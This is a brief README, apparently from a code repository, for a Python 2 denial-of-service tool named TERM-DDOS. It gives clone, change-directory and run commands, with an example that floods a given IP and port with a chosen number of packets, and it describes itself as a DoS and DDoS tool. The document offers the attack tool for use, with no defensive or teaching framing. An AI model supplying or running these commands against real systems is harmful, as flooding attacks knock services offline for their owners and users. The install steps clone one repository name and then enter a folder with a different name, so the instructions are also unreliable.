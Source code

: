 ##############################################
#                 TERM-DDOS                   #
#          Created by : shanitarini          #
#               ----------                   #
##############################################

#install
git clone https://github.com/shanitarini/termddos
cd Planetwork-DDOS
python2 ./pntddos.py

#Usage


EX:
python2 ./pntddos.py ip port packet

EX:
python2 ./pntddos.py 192.168.xx.xx 80 3000

#Note
It is DOS & DDOS Tools.
